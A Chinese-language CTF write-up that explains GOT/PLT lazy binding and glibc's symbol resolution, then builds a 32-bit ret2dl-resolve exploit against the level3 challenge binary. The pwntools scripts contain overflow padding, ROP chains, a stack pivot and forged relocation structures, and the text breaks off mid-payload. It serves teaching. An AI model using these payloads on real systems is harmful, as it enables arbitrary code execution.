# 针对函数重定位流程的几种攻击

## got表、plt表与延迟绑定

例，`~/XMAN 2016-level3/level3`
程序在main函数中和`vulnerable_function`中都调用了write函数，我们分别在两个call _write和一个call _read上下断点,调试观察。启动调试后程序断在第一个`call _write`处



跟进函数发现EIP跳到了`.plt`表上，从旁边的箭头我们可以看到这个jmp指向了后面的`push 18h; jmp loc_8048300`



继续执行到`jmp loc_8048300`发生跳转，发现这边又是一个push和一个jmp，这段代码也在`.plt`上



继续执行，可以发现程序跳转到了0xf7f83000处(ld_2.23.so)



对于指令`jmp ds:off_804a008`意思并不是跳转到地址0x0804a008执行代码，而是跳转到地址0x0804a008中保存的地址处。理，一开始的`jmp ds:off_804a018`也不是跳转到地址0x0804a018.


跟进`_write`后的第一条指令是`jmp ds:0ff_804a008`,这个地址位于`.got.plt`中。其保存的内容是`loc_8048346`，后面还跟着一个`DATA XREF:_write↑r`. 说明这是一个跟write函数相关的代码引用的这个地址，上面的有一个同样的read也说明了这一点。而而`jmp ds:0ff_804a008`也是跳到了0x0804a008保存的地址`loc_0F7F92918`处。
继续执行到retn 0Ch，继续往下执行就到了write函数的真正地址




所以`call _write`的流程如下



对于`call _read`，其流程也和上图差不多，唯一的区别在于`addr1`和`push num`中的数字不一样，`call _read`时push的数字是0



继续执行程序到第二个write函数，跟进后发现`jmp ds:0ff_804a018`旁边的箭头不再指向下面的`push 18h`。查看.got.plt，发现其内容已经直接变成了write函数在内存中的真实地址




实际上，只有某个库函数第一次被调用时才会经历一系列繁琐的过程，之后的调用会直接跳转到其对应的地址。为了减少存储器浪费，现代操作系统支持动态链接特性，即不是在程序编译的时候就把外部的库函数编译进去，而是在运行时再把包含有对应函数的库加载到内存里。由于内存空间有限，选用函数库的组合无限，显然程序不可能在运行之前就知道自己用到的函数会在哪个地址上。
程序在运行时碰到了外部符号，就需要去找到它们真正的内存地址，这个过程被称为重定位。为了安全，现代操作系统的设计要求代码所在的内存必须是不可修改的，诸如call read一类的指令即没办法在编译阶段直接指向read函数所在地址，又没办法在运行时修改成read函数所在地址，需要got表（`Global Offset Table`，全局偏移表）和plt表（`Procedure Linkage Table`，过程链接表）来确保CPU在运行到这行指令时能正确跳到read函数。
在延迟加载的情况下，每个外部函数的got表都会被初始化成plt表中对应项的地址。当call指令执行时，EIP直接跳转到plt表的一个jmp，这个jmp直接指向对应的got表地址，从这个地址取值。此时这个jmp会跳到保存好的，plt表中对应项的地址，在这里把每个函数重定位过程中唯一的不同点，即一个数字入栈（对于单个程序来说，这个数字是不变的），然后`push got[1]`并跳转到`got[2]`保存的地址。在这个地址中对函数进行了重定位，并且修改got表为真正的函数地址。当第二次调用同一个函数的时候，call仍然使EIP跳转到plt表的同一个jmp，不同的是这回从got表取值取到的是真正的地址，从而避免重复进行重定位。

## 符号解析过程

对比源码理解([glibc-2.27](https://mirror.sergal.org/gnu/libc/))
先回到跳转到转到ld_2.23.so处



这一段的源码是用汇编实现的，源码路径为`glibc/sysdeps/i386/dl-trampoline.S`（64位把i386改为x86_64）

```asm
    .text
    .globl _dl_runtime_resolve
    .type _dl_runtime_resolve, @function
    cfi_startproc
    .align 16
_dl_runtime_resolve:
    cfi_adjust_cfa_offset (8)
    pushl %eax  # Preserve registers otherwise clobbered.
    cfi_adjust_cfa_offset (4)
    pushl %ecx
    cfi_adjust_cfa_offset (4)
    pushl %edx
    cfi_adjust_cfa_offset (4)
    movl 16(%esp), %edx # Copy args pushed by PLT in register.  Note
    movl 12(%esp), %eax # that `fixup' takes its parameters in regs.
    call _dl_fixup  # Call resolver.
    popl %edx   # Get register content back.
    cfi_adjust_cfa_offset (-4)
    movl (%esp), %ecx
    movl %eax, (%esp)   # Store the function address.
    movl 4(%esp), %eax
    ret $12 # Jump to function address.
    cfi_endproc
    .size _dl_runtime_resolve, .-_dl_runtime_resolve
```

_dl_fixup的实现位于`glibc/elf/dl-runtime.c`, 对于函数的参数列表

```c++
    _dl_fixup (
    # ifdef ELF_MACHINE_RUNTIME_FIXUP_ARGS
        ELF_MACHINE_RUNTIME_FIXUP_ARGS,
    # endif
        struct link_map *l, ElfW(Word) reloc_arg)
```

_dl_fixup接收两个参数，link_map类型的指针l对应了push进去的`got[1]`，reloc_arg对应了push进去的数字。由于`link_map *`都是一样的，不同的函数差别只在于reloc_arg部分。



对于reloc_arg是通过开头的宏定义reloc_offset声明的

```c++
    #ifndef reloc_offset
    # define reloc_offset reloc_arg
    # define reloc_index  reloc_arg / sizeof (PLTREL)
    #endif
```

```c++
    {
    const ElfW(Sym) *const symtab
        = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
    const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);

    const PLTREL *const reloc
        = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
    const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
    const ElfW(Sym) *refsym = sym;
    void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
    lookup_t result;
    DL_FIXUP_VALUE_TYPE value;
```

D_PTR是一个宏定义，位于glibc/sysdeps/generic/ldsodefs.h中，用于通过link_map结构体寻址,这几行代码用于寻找并保存symtab, strtab的首地址和利用参数reloc_offset寻找对应的PLTREL结构体项，然后会利用这个结构体项reloc寻找symtab中的项sym和一个rel_addr.这个结构体项定义在glibc/elf/elf.h中，32位下该结构体为

```c++
    /* Relocation table entry without addend (in section of type SHT_REL).  */

    typedef struct
    {
    Elf32_Addr r_offset;    /* Address */
    Elf32_Word r_info;  /* Relocation type and symbol index */
    } Elf32_Rel;
```

这个结构体中有两个成员变量，其中r_offset参与了初始化变量rel_addr，这个变量在_dl_fixup的最后return处作为函数elf_machine_fixup_plt的参数传入，r_offset实际上就是函数对应的got表项地址。另一个参数r_info参与了初始化变量sym和一些校验，而sym和其成员变量会作为参数传递给函数_dl_lookup_symbol_x和宏DL_FIXUP_MAKE_VALUE中

```c++
    /* Sanity check that we're really looking at a PLT relocation.  */
    assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
    // 根据后面的定义，这行代码实际上是取reloc->r_info的最后一个字节并判断是否为ELF_MACHINE_JMP_SLOT
```

这行代码用了一大堆宏，ELFW宏用来拼接字符串，R_TYPE和前面出现过的R_SYM定义如下

```c++
    /*
    #define ELF32_R_SYM(i) ((i)>>8)
    #define ELF32_R_TYPE(i) ((unsigned char)(i))
    #define ELF32_R_INFO(s, t) (((s)<<8) + (unsigned char)(t))
    */
    /* Look up the target symbol.  If the normal lookup rules are not
        used don't look in the global scope.  */
    if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
        {
        const struct r_found_version *version = NULL;

        if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
        {
        const ElfW(Half) *vernum =
            (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
        ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
        version = &l->l_versions[ndx];
        if (version->hash == 0)
            version = NULL;
        }
```

这段代码使用reloc->r_info最终给version进行了赋值，这里可以看出reloc->r_info的高24位异常可能导致ndx数值异常，进而在`version = &l->l_versions[ndx]`时可能会引起数组越界从而使程序崩溃。
对于变量sym，同样使用了ELFW(R_SYM)(reloc->r_info)作为下标进行赋值

```c++
    const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
```

Elfw(Sym)会被处理成Elf32_Sym，定义在glibc/elf/elf.h，结构体如下：

```c++
    typedef struct
    {
    Elf32_Word        st_name;                /* Symbol name (string tbl index) */
    Elf32_Addr        st_value;                /* Symbol value */
    Elf32_Word        st_size;                /* Symbol size */
    unsigned char        st_info;                /* Symbol type and binding */
    unsigned char        st_other;                /* Symbol visibility */
    Elf32_Section        st_shndx;                /* Section index */
    } Elf32_Sym;
```

最后只有`if (__builtin_expect (ELFW(ST_VISIBILITY) (refsym->st_other), 0) == 0)`成立,真正进行重定位的函数_dl_lookup_symbol_x才会被执行。ELFW(ST_VISIBILITY)会被解析成宏定义`#define ELF32_ST_VISIBILITY(o) ((o) & 0x03)`（位于`glibc/elf/elf.h)，所以sym->st_other后两位必须为0。

```c++
    result = _dl_lookup_symbol_x (strtab + refsym->st_name, l,
                        &defsym, l->l_scope, version,
                        ELF_RTYPE_CLASS_PLT, flags, NULL);
```

传入_dl_lookup_symbol_x函数的参数中，第一个参数为strtab+sym->st_name，第三个参数是sym指针的引用。strtab在函数的开头已经赋值为strtab的首地址，查阅资料可知strtab是ELF文件中的一个字符串表，内容包括了.symtab和.debug节的符号表等等。根据readelf给出的偏移来看一下这个表




可以看到这里面是有read、write、__libc_start_main等函数的名字的,进入函数可以看到函数名字会被计算hash，这个hash会传递给do_lookup_x

```c++
    int res = do_lookup_x (undef_name, new_hash, &old_hash, *ref,
                                ¤t_value, *scope, start, version, flags,
                                skip_map, type_class, undef_map)
```

而do_lookup_x才是真正进行重定位的函数，而且其返回值res大于0说明寻找到了函数的地址。do_lookup_x，发现其主要是使用用strtab + sym->st_name计算出来的参数new_hash进行计算，与strtab + sym->st_name，sym等并没有什么关系。对比do_lookup_x的参数列表和传入的参数，可以发现其结果保存在current_value中。

```c++
    do_lookup_x:
    static int
    __attribute_noinline__
    do_lookup_x (const char *undef_name, uint_fast32_t new_hash,
                unsigned long int *old_hash, const ElfW(Sym) *ref,
                struct sym_val *result, struct r_scope_elem *scope, size_t i,
                const struct r_found_version *const version, int flags,
                struct link_map *skip, int type_class, struct link_map *undef_map)

    _dl_lookup_symbol_x:
    int res = do_lookup_x (undef_name, new_hash, &old_hash, *ref,
                                ¤t_value, *scope, start, version, flags,
                                skip_map, type_class, undef_map);
```

所以整个过程如下（reloc_arg为push的数字，这个程序中write对应的数字为18h）：



## 32位下的ret2dl-resolve

综上，其实最终影响解析的是函数的名字，强行将write改成system，也可以成功劫持system
使用readelf查看程序信息，找到JMPREL在0x080482b0



事实上该信息储存在`.rel.plt`节里



按照结构体格式解析数据，可知r->offset = 0x0804a018 , r->info=407，与readelf显示的.rel.plt数据吻合




所以是symtab的第四项，通过`#include<elf.h>`导入该结构体后使用sizeof算出Elf32_Sym大小为0x10，通过上面readelf显示的节头信息发现symtab并不会映射到内存中，但是symtab有个子集dymsym，在节头表中显示其位于080481cc。



对照结构体，st_name是0x31，接下来我们去strtab找，同样的，strtab也有个子集dynstr，地址在0804822c.加上0x31后为0804825d



在内存中强行把write改成system




但是`.rel.plt. .dynsym .dynstr`所在的内存区域都不可写,所以能改变的只有reloc_arg。思路是在内存中伪造Elf32_Rel和Elf32_Sym两个结构体，并手动传递reloc_arg使其指向我们伪造的结构体，让Elf32_Sym.st_name的偏移值指向预先放在内存中的字符串system完成攻击。
为了地址可控，我们首先进行栈劫持并跳转到0x0804834B(jmp loc_08048300),`push 18h`在构造新栈时手动布置(需要构造新栈防止劫持栈后程序奔溃)

```python
    from pwn import *

    start_addr = 0x08048350
    read_plt = 0x08048310
    write_plt = 0x08048340
    write_plt_without_push_reloc_arg = 0x0804834b
    leave_ret = 0x08048482
    pop3_ret = 0x08048519   # pop esi; pop edi; pop ebp; retn
    pop_ebp_ret = 0x0804851b
    new_stack_addr = 0x0804a200                                                     # bss与got表相邻，_dl_fixup中会降低栈后传参，设置离bss首地址远一点防止参数写入非法地址出错

    p = process('/home/nop/Desktop/level3')

    payload = ""
    payload += 'A'*140                                                              # padding
    payload += p32(read_plt)                                                        # 调用read函数往新栈写值，防止leave; retn到新栈后出现ret到地址0上导致出错
    payload += p32(pop3_ret)                                                        # read函数返回后从栈上弹出三个参数,为了后面能够将新的栈顶pop给ebp(read函数执行完后，参数仍旧在栈中)
    payload += p32(0)                                                               # fd = 0
    payload += p32(new_stack_addr)                                                  # buf = new_stack_addr
    payload += p32(0x400)                                                           # size = 0x400
    payload += p32(pop_ebp_ret)                                                     # 把新栈顶给ebp，接下来利用leave指令把ebp的值赋给esp
    payload += p32(new_stack_addr)
    payload += p32(leave_ret)                                                       # ret执行之后，esp执行payload1+4即p32(write_plt_without_push_reloc_arg)的位置

    p.send(payload)                                                                 # 程序从call read 执行到ret后就转去执行payload中的read函数，将下面的payload写入new_stack_addr处

    payload1 = ""
    payload1 += "AAAA"                                                               # leave = mov esp, ebp; pop ebp（esp+4，此处用于填充）
    payload1 += p32(write_plt_without_push_reloc_arg)                                # 强制程序对write函数重定位，reloc_arg由我们手动放入栈中
    payload1 += p32(0x18)                                                            # 手动传递write的reloc_arg，调用write
    payload1 += p32(start_addr)                                                      # 函数执行完后返回start
    payload1 += p32(1)                                                               # write函数参数 fd = 1
    payload1 += p32(0x08048000)                                                      # write函数参数buf = ELF程序加载开头，write会输出ELF
    payload1 += p32(4)                                                               # write函数参数size = 4
    p.send(payload1)
```



调试发现跳转到`write_plt_without_push_reloc_arg`上，还是会直接跳转到`PLT[0]`，所以可以把`write_plt_without_push_reloc_arg`改成`PLT[0]`的地址。
接下来就需要在新栈上伪造两个结构体

```python

    from pwn import *

    write_got = 0x0804a018
    read_plt = 0x08048310
    plt0_addr = 0x08048300
    leave_ret = 0x08048482
    pop3_ret = 0x08048519
    pop_ebp_ret = 0x0804851b
    write_got = 0x0804a018
    new_stack_addr = 0x0804a500                                                     # bss与got表相邻，_dl_fixup中会降低栈后传参，设置离bss首地址远一点防止参数写入非法地址出错
    relplt_addr = 0x080482b0                                                        # .rel.plt的首地址，通过计算首地址和新栈上我们伪造的结构体Elf32_Rel偏移构造reloc_arg
    dymsym_addr = 0x080481cc                                                        # .dynsym的首地址，通过计算首地址和新栈上我们伪造的Elf32_Sym结构体偏移构造Elf32_Rel.r_info
    dynstr_addr = 0x0804822c                                                        # .dynstr的首地址，通过计算首地址和新栈上我们伪造的函数名字符串system偏移构造Elf32_Sym.st_name

    p = process('/home/nop/Desktop/level3')

    payload = ""
    payload += 'A'*140                                                              # padding
    payload += p32(read_plt)                                                        # 调用read函数往新栈写值，防止leave; retn到新栈后出现ret到地址0上导致出错
